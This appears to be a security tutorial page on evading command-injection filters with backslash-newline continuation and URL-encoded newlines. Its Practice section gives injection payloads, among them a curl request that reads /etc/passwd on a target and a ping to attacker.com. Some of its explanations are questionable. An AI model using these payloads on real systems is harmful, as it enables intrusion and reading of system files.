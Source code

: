 ```yaml
---
title: Bypass Command Filters with Backslash and Newline
description: Learn how to exploit backslash and newline sequences to bypass command
  filters in web apps, enhancing command injection techniques.
keywords:
- backslash newline escape
- command injection
- filter bypass
- web application security
- URL-encoded newline
- line continuation
- escape sequence exploitation
---
```


# Bypass With Backslash Newline

## Context

The goal of this article is to demonstrate how an attacker can exploit command injection vulnerabilities in web applications by using backslash-newline escape sequences. This technique is particularly effective for bypassing filters that aim to prevent injection by blocking certain keywords or commands. A fundamental understanding of newline characters, escape sequences, URL encoding, and command injection techniques is assumed.

## Theory

### Backslash-Newline as a Line Continuation Mechanism

In many Unix-based shells, a backslash followed by a newline character serves as a line continuation mechanism. This means that the shell treats the combination of a backslash and a newline as if they do not exist, effectively spanning the command over multiple lines but executing it as a single logical line. This behavior can be exploited in command injection scenarios to bypass filtering mechanisms.

Shell filters that aim to block dangerous keywords (such as 'cat', 'ping', or specific options) may fail to detect malicious input if these payloads are split between lines using a backslash-newline sequence.

### Escape Sequence Exploitation in Command Injection

Attackers can insert a backslash followed by a newline character into their payloads to evade static keyword or character filters during command injection attacks. This approach takes advantage of filters that process input character-by-character or on a single line. By splitting keywords or operators across lines, the attacker bypasses detection and enables command execution.

### URL-Encoded Newline and Backslash-Newline Injection

In a web-based context, newline characters can be represented using URL encoding, often as '%0a' (line feed) or '%0d%0a' (carriage return followed by a line feed). This encoding allows attackers to remotely inject backslash-newline sequences in HTTP requests. By leveraging these encoded newlines, an attacker can bypass input validation that would otherwise filter out newline characters.

## Practice

### Bypassing Filters with Backslash-Newline in Command Injection

- Identify a vulnerable web parameter that is susceptible to command injection but employs filtering to block basic command keywords. Focus on parameters where direct injection attempts are blocked due to the presence of filters.

- Use the following payload to evade filters:
  
  ```bash
  ping\
  -c 1 attacker.com
  ```

  This command splits 'ping -c' so that the '-c' option is on a new line, evading detection by simple keyword filters.

- Another example payload:
  
  ```bash
  cat\
  /etc/passwd
  ```

  By splitting the command with a backslash-newline, you can bypass filters preventing the execution of 'cat /etc/passwd'.

- For web-based injection points, consider using URL-encoded newline characters:
  
  ```http
  ls\%0a-la
  ```

  This uses a URL-encoded newline to bypass filters in applications processing HTTP parameters.

- Execute the command with a tool such as curl:

  ```bash
  curl 'http://target/app?input=cat\%0a/etc/passwd'
  ```

  This HTTP request sends the encoded payload to the target application, aiming to trigger the vulnerability and achieve command execution.

The above techniques highlight how backslash-newline escape sequences can be effectively used to bypass command injection filters and execute commands on a vulnerable server.

## Tools

- **curl**
- **Burp Suite**